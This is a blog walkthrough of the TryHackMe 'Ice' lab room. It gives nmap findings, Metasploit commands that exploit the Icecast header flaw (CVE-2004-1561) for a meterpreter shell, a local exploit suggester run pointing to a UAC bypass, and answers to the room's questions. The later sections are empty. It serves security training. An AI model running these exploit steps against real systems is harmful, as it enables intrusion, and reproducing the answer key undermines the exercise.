 ```yaml
---
title: "TryHackMe Ice - Walkthrough"
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Machines
teaser: assets/images/thm/thm-ice-00.png  
tagline: "ICE - Tryhackme Walkthrough by Nisha."
header:
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
---
```



<h5>Deploy & hack into a Windows machine, exploiting a very poorly secured media server. </h5>

<img src="/assets/images/thm/ice-1.png">

Room:<a href="https://tryhackme.com/r/room/ice"> https://tryhackme.com/r/room/ice</a>


{% include toc %}

## Task 1 - Connect 

Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from <a href="http://tryhackme.com/access ">your access page. </a>



## Task 2 - Recon

Click on Start Machine to deploy the machine!

<img src="/assets/images/thm/thm-ice-2.png">

Time to Scan and Enumerate our target!


An NMAP scan reveals the following ports were discovered to be open:

<img src="/assets/images/thm/thm-ice-3.png">

<strong> Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on? </strong><br>
<em> Answer: 3389</em>




<strong> Q: What service did nmap identify as running on port 8000? (First word of this service) </strong><br>
<em> Answer: Icecast </em>

<img src="/assets/images/thm/thm-ice-4.png">


<strong> Q: What does Nmap identify as the hostname of the machine? (All caps for the answer) </strong><br>
<em> Answer: DARK-PC </em>

<img src="#">


## Task 3 - Gain Access

In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below. 


<strong> Q: What is the Impact Score for this vulnerability? Use <a href="https://www.cvedetails.com">https://www.cvedetails.com </a> for this question and the next.  </strong><br>
<em> Answer: 6.4 </em>

<img src="/assets/images/thm/thm-ice-6.png">


<strong> Q: What is the CVE number for this vulnerability?  </strong><br>
<em> Answer: CVE-2004-1561 </em>

It is time to use the information that we have collected to locate an exploit for our target.  We will use automation for this exploitation exercise with Metasploit being our tool of choice. 

Type "msfconsole" to launch the Metasploit Framework. <br>

<img src="/assets/images/thm/thm-ice-7.png">

<strong> Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module. </strong><br>
<em> Answer: exploit/windows/http/icecast_header</em>

<img src="/assets/images/thm/thm-ice-8.png">

> use exploit/windows/http/icecast_header  

<img src="/assets/images/thm/thm-ice-9.png">

> set RHOSTS 10.2.119.123
<img src="/assets/images/thm/thm-ice-10.png">

> set LHOST tun0

<img src="/assets/images/thm/thm-ice-11.png">


<strong> # set LHOST <em> attackerIPaddress or interface  

> exploit 

<img src="/assets/images/thm/thm-ice-12.png">



## Task 4 - Escalate

<h5> Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers. </h5>


<strong> Q: Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? </strong><br>
<em> Answer: meterpreter </em>


 > getuid 

<strong> Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module. </strong><br>
<em> Answer: Dark </em>




<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<img src="/assets/images/thm/thm-ice-13.png">


<strong> Q:Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? </strong><br>
<em> Answer: x64 </em>


Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* <br>

>  run post/multi/recon/local_exploit_suggester

<strong> Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? </strong><br>
<em> Answer: exploit/windows/local/bypassuac_eventvwr </em>

<img src="/assets/images/thm/thm-ice-14.png">


<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>



<img src="/assets/images/thm/thm-ice-15.png">
<img src="/assets/images/thm/thm-ice-16.png">

<img src="/assets/images/thm/thm-ice-17.png">
<img src="/assets/images/thm/thm-ice-18.png">



## Task 5 - Looting


<img src="/assets/images/thm/thm-ice-19.png">




## Task 6 - Post-Exploitation

## Task 7 - Extra Credit

